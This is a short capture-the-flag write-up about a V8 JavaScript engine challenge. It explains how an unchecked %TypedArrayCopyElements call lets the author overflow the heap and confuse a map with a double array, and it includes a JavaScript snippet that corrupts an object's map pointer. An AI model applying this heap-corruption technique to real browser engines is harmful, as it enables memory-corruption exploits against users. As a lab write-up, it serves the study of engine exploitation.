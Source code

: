 In this challenge I abused heap overflow with `%TypedArrayCopyElements` that didn't check the bounds.

Luckily, during CONFIDENCE CTF i didn't notice you could use clean OOB write and decided to go with heap overflow to make confusion between map and array with doubles.
So once I confused the object, i just copied the exploit I used before ;)

The "meat" of the exploit is shown below:

```
var w = new Uint8Array(10);
var z = new Uint8Array(1000);

var sice_obj = {"a":0x100.smi2f(),"b":BigInt(0x13377331).i2f(),"c":BigInt(0x13377331).i2f(),"d":BigInt(0x13377331).i2f()}

z.fill(0x91,0,1000);
z[197] = 0x18; // two lower bytes dictate the type of the object (it's a map ptr)
z[196] = 0x91;
//%DebugPrint(sice_obj);


%TypedArrayCopyElements(w,z,198);
```
